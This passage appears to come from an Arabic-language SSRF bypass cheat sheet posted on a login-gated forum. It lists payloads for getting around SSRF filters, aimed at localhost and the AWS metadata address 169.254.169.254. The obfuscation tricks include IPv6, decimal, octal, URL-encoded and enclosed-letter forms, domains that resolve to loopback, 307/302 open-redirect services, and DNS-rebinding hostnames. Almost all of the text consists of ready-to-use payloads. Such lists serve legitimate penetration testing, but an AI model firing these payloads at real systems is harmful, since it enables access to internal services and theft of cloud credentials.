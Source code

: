   - `http://[::]:80/` (IPv6 unspecified address).
  - `http://[0000::1]:80/` (IPv6 loopback).
  - `http://[::ffff:127.0.0.1]:80/` (IPv6/IPv4 embedding).
  - `http://127.0.0.2:80` (CIDR range).
  - `http://127.127.127.127:80` (CIDR range).
  - `http://127.1:80` (عنوان مختصر).
  - `http://0:80/` (عنوان مختصر).
  - `http://2130706433/` (عشري لـ `127.0.0.1`).
  - `http://2852039166/` (عشري لـ `169.254.169.254`).
  - `http://0177.0.0.1/` (ثماني لـ `127.0.0.1`).
  - `http://o177.0.0.1/` (ثماني بديل).
  - `http://127.0.0.1/%61dmin` (ترميز URL).
  - `http://127.0.0.1/%2561dmin` (ترميز URL مزدوج).
  - `http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ` (حروف مشفرة).
  - `http://127.0.0.1.nip.io` (نطاق يوجه إلى `127.0.0.1`).
  - `http://localtest.me` (نطاق يوجه إلى `::1`).
  - `http://localh.st` (نطاق يوجه إلى `127.0.0.1`).
  - `http://spoofed.redacted.oastify.com` (نطاق يوجه إلى `127.0.0.1`).

---

#### **6. اختبار التجاوز باستخدام إعادة التوجيه (Redirects)**
- **إيه اللي هتعمله؟** جرب استخدام روابط تُعاد توجيهها إلى أهداف داخلية (مثل `localhost`) عشان تتخطى فلاتر تمنع الوصول المباشر.
- **إزاي تعملها؟**
  - أنشئ صفحة على خادم خارجي موثوق (أو استخدم خدمة زي `r3dir.me`) تعيد التوجيه إلى عنوان داخلي.
  - أدخل رابط إعادة التوجيه في حقل SSRF.
  - لو الموقع نفذ الطلب وأظهر ناتج من العنوان الداخلي، يبقى نجح []سجل الدخول لتتمكن من عرض هذا المحتوى.لتتمكن من عرض هذا المحتوى، يرجى تسجيل الدخول. <a href="/register/">تسجيل الدخول</a>
  - استخدم رموز إعادة توجيه HTTP 307 أو 308 عشان تحتفظ بطريقة الطلب والبيانات.
- **مثال**: جرب: `example.com/fetch?url=https://307.r3dir.me/--to/?url=http://localhost`.
- **ملخص الأوامر/المدخلات**:
  - `https://307.r3dir.me/--to/?url=http://localhost` (إعادة توجيه 307 إلى `localhost`).
  - `https://307.r3dir.me/--to/?url=http://127.0.0.1:80` (إعادة توجيه إلى `127.0.0.1`).
  - `https://62epax5fhvj3zzmzigyoe5ipkbn7fysllvges3a.302.r3dir.me` (إعادة توجيه 302 إلى AWS Metadata).
  - `http://your-redirect.com/?to=http://169.254.169.254/latest/meta-data/` (رابط إعادة توجيه مخصص).

---

#### **7. اختبار التجاوز باستخدام DNS Rebinding**
- **إيه اللي هتعمله؟** استخدم نطاق يتغير بين عنوان خارجي وعنوان داخلي (مثل `127.0.0.1` أو `169.254.169.254`) عشان تتخطى الفلاتر.
- **إزاي تعملها؟**
  - استخدم خدمة زي `1u.ms` لإنشاء نطاق يتبدل بين عنوانين.
  - أدخل النطاق في حقل SSRF.
  - استخدم `nslookup` عشان تتأكد إن النطاق بيتغير بين العناوين.
  - لو الموقع أظهر بيانات من العنوان الداخلي، يبقى نجحت.
- **مثال**: جرب: `example.com/fetch?url=http://make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms`.
- **ملخص الأوامر/المدخلات**:
  - `http://make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms` (يتبدل بين عنوان خارجي وAWS Metadata).
  - `http://make-1.2.3.4-rebind-127.0.0.1-rr.1u.ms` (يتبدل إلى `127.0.0.1`).
  - `http://make-1.2.3.4-rebind-192.168.0.1-rr.1u.ms` (يتبدل إلى `192.168.0.1`).

---